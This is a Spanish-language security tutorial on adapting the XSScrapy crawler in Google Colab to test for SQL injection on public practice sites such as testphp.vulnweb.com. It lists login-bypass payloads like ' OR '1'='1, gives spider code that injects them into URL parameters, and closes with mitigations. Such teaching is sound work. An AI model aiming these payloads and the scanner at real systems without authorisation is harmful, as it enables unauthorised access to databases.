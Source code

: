 ![M1](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%201%402Menbrete1.png)

# **Vulnerabilidades SQL Injection con XSScrapy en Google Colab**

🔹 **Objetivo**: Aprender a utilizar **XSScrapy** para identificar vulnerabilidades de **SQL Injection (SQLi)** en un sitio web, trabajando en **Google Colab** y utilizando entornos de prueba seguros.

## **🔹 Módulo 1: Introducción a XSScrapy y SQL Injection**

### 📌 **1.1 ¿Qué es XSScrapy?**

**XSScrapy** es un **crawler de seguridad** desarrollado en Python que permite identificar vulnerabilidades **XSS (Cross-Site Scripting)** y, con ciertas modificaciones, también ayuda a detectar **SQL Injection** en sitios web.

Es una herramienta útil en **pentesting** para encontrar entradas de usuario que podrían ser explotadas mediante inyecciones de código malicioso.

📌 **Características principales**:

✅ Escaneo automático de formularios y parámetros en URLs.

✅ Detección de vulnerabilidades XSS y SQLi.

✅ Compatible con Python 3 y Scrapy (un framework de web scraping).

### 📌 **1.2 ¿Qué es SQL Injection?**

El **SQL Injection (SQLi)** es una vulnerabilidad web que ocurre cuando una aplicación permite que un atacante inyecte código SQL malicioso en una consulta de base de datos.

💡 **Ejemplo de SQL Injection**

Supongamos que un sitio web tiene un formulario de inicio de sesión con el siguiente código en su backend:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '12345';
```

Si el atacante introduce en el campo de contraseña la siguiente consulta maliciosa:

```sql
' OR '1'='1
```

El sistema ejecutará:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';
```

📌 Esto siempre devolverá **true**, permitiendo el acceso no autorizado.

## **🔹 Módulo 2: Instalación de XSScrapy en Google Colab**

Para facilitar la ejecución de XSScrapy sin necesidad de instalarlo localmente, trabajaremos en **Google Colab**, un entorno en la nube que permite ejecutar código Python sin configuraciones avanzadas.

### 📌 **2.1 Abrir Google Colab y configurar el entorno**

1️⃣ Accede a **Google Colab**.
2️⃣ Crea un nuevo cuaderno (**File > New Notebook**).
3️⃣ Ejecuta los siguientes comandos en una celda para instalar las dependencias:

```python
!apt-get install -y git
!apt-get install -y python3-pip
!pip install scrapy
!git clone https://github.com/DanMcInerney/xsscrapy.git
!cd xsscrapy && pip install -r requirements.txt
```

📌 Esto instalará **Scrapy** (necesario para XSScrapy) y clonará el repositorio de la herramienta.

## **🔹 Módulo 3: Análisis de SQL Injection con XSScrapy**

### 📌 **3.1 Configuración de XSScrapy para detectar SQL Injection**

Por defecto, XSScrapy está diseñado para detectar **XSS**, pero podemos modificar su código para analizar **parámetros vulnerables a SQL Injection**.

🔹 **Modificación del código para detectar SQLi**

1️⃣ Abre el archivo `xsscrapy/spiders/xss_spider.py`:

```python
!nano xsscrapy/xsscrapy/spiders/xss_spider.py
```

2️⃣ Modifica la sección que envía payloads XSS y agrega payloads de SQL Injection:

```sql
sql_payloads = [
    "' OR '1'='1",
    "' OR '1'='1' --",
    "' OR '1'='1' /*",
    "' OR 1=1--",
    "' OR 1=1#",
    "' OR 1=1/*"
]

def parse(self, response):
    for input_tag in response.xpath('//input'):
        for payload in sql_payloads:
            test_url = response.url + "?" + input_tag.attrib.get('name', 'param') + "=" + payload
            yield scrapy.Request(test_url, callback=self.check_sql_injection)

def check_sql_injection(self, response):
    if "error" in response.text.lower() or "sql syntax" in response.text.lower():
        self.log(f"[!] SQL Injection detected: {response.url}")
```

------

### 📌 **3.2 Ejecutar XSScrapy para analizar una URL de prueba**

Usaremos **un sitio seguro para pruebas de SQL Injection**. Una opción es:

🔹 **http://testphp.vulnweb.com/**

Ejecutamos el escaneo con:

```sql
!cd xsscrapy && scrapy crawl xss_spider -a domain="http://testphp.vulnweb.com/"
```

✅ XSScrapy rastreará la página y probará los payloads de SQL Injection en los formularios y parámetros de la URL.

## **🔹 Módulo 4: Interpretación de Resultados y Mitigación**

### 📌 **4.1 Identificación de vulnerabilidades**

Si el sitio es vulnerable, XSScrapy mostrará mensajes como:

```bash
[!] SQL Injection detected: http://testphp.vulnweb.com/listproducts.php?cat=' OR '1'='1
```

Esto indica que el sitio es susceptible a **SQL Injection**.

------

### 📌 **4.2 Cómo mitigar SQL Injection**



Para proteger una aplicación web de SQL Injection, se deben aplicar las siguientes prácticas:

✅ **Usar consultas preparadas (Prepared Statements)**

Ejemplo en Python con **MySQL**:

```python
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (user, password))
```

✅ **Filtrar y validar los datos de entrada**

Rechazar caracteres especiales como `'`, `--`, `;`, etc.

✅ **Configurar correctamente los permisos de la base de datos**

Asegurar que los usuarios de la base de datos tengan solo los permisos necesarios.

✅ **Usar Web Application Firewalls (WAF)**

Un **WAF** como ModSecurity ayuda a bloquear intentos de SQL Injection.

## **🔹 Evaluación y Proyecto Final**

Para reforzar lo aprendido, practica con:

1️⃣ **Ejecutar XSScrapy en otro sitio de pruebas**, como:



- 🔹 **http://testasp.vulnweb.com/**

- 🔹 [**https://www.webscantest.com/**](https://www.webscantest.com/)

  

2️⃣ **Modificar los payloads en XSScrapy** y probar variantes de ataques SQL Injection.



3️⃣ **Escribir un informe** con:

- Vulnerabilidades encontradas.

- Posibles impactos en la seguridad.

- Métodos de mitigación recomendados.

  

![M2](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%203%402Menbrete2.png)